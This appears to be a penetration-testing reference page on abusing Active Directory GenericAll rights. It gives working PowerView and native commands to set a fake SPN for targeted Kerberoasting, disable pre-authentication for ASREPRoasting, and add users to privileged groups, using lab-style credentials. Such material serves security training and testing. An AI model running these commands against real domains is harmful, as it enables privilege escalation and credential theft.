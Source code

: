 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# GenericAll

## Information

**Full control** over the target account.

| Over a User                                                    | Over a Group                                                 |
| -------------------------------------------------------------- | ------------------------------------------------------------ |
| [Change the account's password](forcechangepassword.md)        | [Add user to the group](genericall.md#add-user-to-the-group) |
| [Targeted Kerberoasting](genericall.md#targeted-kerberoasting) |                                                              |
| [Targeted ASREPRoasting](genericall.md#targeted-asreproasting) |                                                              |

## Exploitation

### Over a User

<figure><img src="../../../../.gitbook/assets/genericall_group_over_user.png" alt=""><figcaption><p>Figure 1: The Information Technology group has GenericAll rights over the user adunn.</p></figcaption></figure>

#### Targeted Kerberoasting

When a group/user has `GenericAll` rights over another account, a fake SPN can be assigned to the target account.

{% code overflow="wrap" %}
```powershell
# credentialed object for the currently owned user
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
 
# create a fake SPN for the target user
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
{% endcode %}

Once the SPN is assigned to the target account, we should be able to [Kerberoast](../attacks/kerberoasting.md) it.

#### Targeted ASREPRoasting

We can disable pre-authentication for the target account and then [ASREPRoast](../attacks/asreproasting.md) it.

```powershell
Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}
```

#### Change user's password

Check [here](forcechangepassword.md).

### Over a Group

#### Add User to the Group

This can be done using [native commands](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754051\(v=ws.11\)), the [AD PS module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/add-adgroupmember?view=windowsserver2022-ps), or PowerView.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong># add user to the domain admins group
</strong><strong>net group '&#x3C;GROUP>' &#x3C;USER> /add /domain
</strong>Add-ADGroupMember -Identity '&#x3C;GROUP>' -Members &#x3C;USER>
Add-DomainGroupMember -Identity '&#x3C;GROUP>' -Members '&#x3C;USER>'
</code></pre>

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericall" %}
{% endtab %}
{% endtabs %}
